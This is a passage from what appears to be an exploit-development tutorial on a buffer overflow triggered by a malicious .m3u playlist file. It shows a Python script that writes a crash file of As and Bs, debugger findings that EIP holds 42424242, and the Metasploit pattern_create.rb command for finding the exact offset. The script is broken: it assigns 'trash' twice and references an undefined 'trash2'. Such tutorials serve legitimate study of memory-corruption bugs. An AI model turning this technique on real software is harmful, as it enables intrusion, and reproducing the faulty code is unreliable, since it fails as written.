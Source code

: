We need to find the offset for EIP, so that at the end of this, we can write our desired instruction to EIP. Our final structure should look like this: `AAAAAAAAAAAAAAA....BBBBCCCCCCCCCCCCCC......`

The As will be filled until we reach EIP, EIP will hold four Bs for us, and then to balance everything out, the rest needed to cause a crash will be a bunch of Cs. This technique is refered to as gaining EIP control.

So to make this process easier, I'll further divide our 30000 As into 25000 As and 5000 Bs. This will help us understand wether we reach EIP within our As or our Bs.

```python
import os
import sys

f = open("lol.m3u","w+")
trash = "A"*25000
trash = "B"*5000
f.write(trash+trash2)
f.close()
```

Now, let's generate the file and load it within the debugger.

![AB Buffer Registers](/assets/img/posts/4p0cryph0n/chapter1/image7.png)

Okay great, as EIP has the value of `42424242` (BBBB), it tells us that somewhere in our 5000 Bs EIP has already been reached.

To determine the exact position of EIP, we will use a pattern. Think of it like

`A123B123C123D123`. This is a pattern right? So if EIP contains `C123` for example, I'll instantly know that it takes 8 bytes to reach EIP, and the rest after that can be junk.

Your kali box comes with two very important tools for this: `pattern_create.rb` and `pattern_offset.rb`. So let's generate a unique pattern of length 5000 and use that in our script.

`/usr/share/metasploit-framework/tools/pattern_create.rb -l 5000`

![Pattern generator trash](/assets/img/posts/4p0cryph0n/chapter1/image8.png)
